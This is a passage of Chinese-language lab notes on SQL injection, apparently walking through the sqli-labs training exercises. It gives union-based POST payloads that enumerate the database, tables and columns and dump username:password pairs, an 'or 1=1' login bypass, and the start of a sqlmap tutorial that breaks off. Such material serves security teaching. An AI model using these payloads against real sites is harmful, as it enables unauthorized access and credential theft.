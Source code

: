 ![image-20240803201952965](../../../../repo/assets/19.SQL注入/image-20240803201952965.png)

`1`和`2`都是显示位

#### 4、获取数据库名

```
passwd=1&submit=Submit&uname=0' union select version(),database()#
```

![image-20240803202246544](../../../../repo/assets/19.SQL注入/image-20240803202246544.png)

#### 5、获取表名

```
passwd=1&submit=Submit&uname=0' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20240803202320057](../../../../repo/assets/19.SQL注入/image-20240803202320057.png)

#### 6、获取字段名

```
passwd=1&submit=Submit&uname=0' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()#
```

![image-20240803202355435](../../../../repo/assets/19.SQL注入/image-20240803202355435.png)

#### 7、获取字段值

```
passwd=1&submit=Submit&uname=0' union select 1,group_concat(username,0x3a,password) from security.users#
```

![image-20240803202422982](../../../../repo/assets/19.SQL注入/image-20240803202422982.png)

### **2**、**post **基于错误的双引号注入回显利用

Bp 抓包修改 发现 sql 语句错误

闭合`")`加上万能密码 `or 1=1` 加上 `--+`，正确登录

### **3**、**Sqlmap** **进行** **post** **注入测试**

#### 注入测试方法

复制 `Burpsuite` 截断的 HTTP 请求数据包到文本文件中，使用 `Sqlmap -r` 文件路径`-p` 指定探测参数。

第一步 bp 抓包 获得 `Less11` 的包，然后将 raw 格式 http 数据赋值到`2.txt` 文本文件中

#### -r

> -r
